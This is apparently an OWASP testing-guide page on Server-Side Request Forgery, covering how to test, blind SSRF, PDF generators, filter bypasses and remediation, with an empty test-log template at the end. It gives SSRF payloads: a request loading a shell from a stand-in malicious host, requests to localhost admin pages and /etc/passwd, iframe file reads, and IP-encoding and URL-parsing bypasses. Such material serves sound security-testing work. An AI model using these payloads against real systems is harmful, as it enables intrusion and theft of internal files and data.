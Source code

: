 # Testing Guide

## Summary

Web applications often interact with internal or external resources. While you may expect that only the intended resource will be handling the data you send, improperly handled data may create a situation where injection attacks are possible. One type of injection attack is called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases, it can even lead to Remote Code Execution (RCE).

## Test Objectives

-   Identify SSRF injection points.
-   Test if the injection points are exploitable.
-   Asses the severity of the vulnerability.

## How to Test

When testing for SSRF, you attempt to make the targeted server inadvertently load or save content that could be malicious. The most common test is for local and remote file inclusion. There is also another facet to SSRF: a trust relationship that often arises where the application server is able to interact with other back-end systems that are not directly reachable by users. These back-end systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls. These internal systems often contain sensitive data or functionality.

Consider the following request:

```
GET https://example.com/page?page=about.php
```

You can test this request with the following payloads.

### Load the Contents of a File

```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

### Access a Restricted Page

```
GET https://example.com/page?page=http://localhost/admin
```

Or:

```
GET https://example.com/page?page=http://127.0.0.1/admin
```

Use the loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host, you also have privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what enables SSRF to be a critical vulnerability.

### Fetch a Local File

```
GET https://example.com/page?page=file:///etc/passwd
```

### HTTP Methods Used

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.

One important note on SSRF with POST requests is that the SSRF may also manifest in a blind manner, because the application may not return anything immediately. Instead, the injected data may be used in other functionality such as PDF reports, invoice or order handling, etc., which may be visible to employees or staff but not necessarily to the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [references section](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery#references).

### PDF Generators

In some cases, a server may convert uploaded files to PDF format. Try injecting `<iframe>`, `<img>`, `<base>`, or `<script>` elements, or CSS `url()` functions pointing to internal services.

```
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Common Filter Bypass

Some applications block references to `localhost` and `127.0.0.1`. This can be circumvented by:

-   Using alternative IP representation that evaluate to `127.0.0.1`:
    -   Decimal notation: `2130706433`
    -   Octal notation: `017700000001`
    -   IP shortening: `127.1`
-   String obfuscation
-   Registering your own domain that resolves to `127.0.0.1`

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented, resulting in attacks similar to [semantic attacks](https://tools.ietf.org/html/rfc3986#section-7.6).

-   Using the `@` character to separate between the userinfo and the host: `https://expected-domain@attacker-domain`
-   URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
-   URL encoding
-   Fuzzing
-   Combinations of all of the above

For additional payloads and bypass techniques, see the [references](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery#references) section.

## Remediation

SSRF is known to be one of the hardest attacks to defeat without the use of allow lists that require specific IPs and URLs to be allowed. For more on SSRF prevention, read the [Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## References

-   [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
-   [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
-   [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
-   [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
-   [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
-   [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
-   [Bugcrowd Webinar: SSRF](https://www.bugcrowd.com/resources/webinars/server-side-request-forgery/)
-   [Hackerone Blog: SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
-   [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
-   [URI Generic Syntax](https://tools.ietf.org/html/rfc3986)

---

# Test Documentation

Document here every action performed for this test.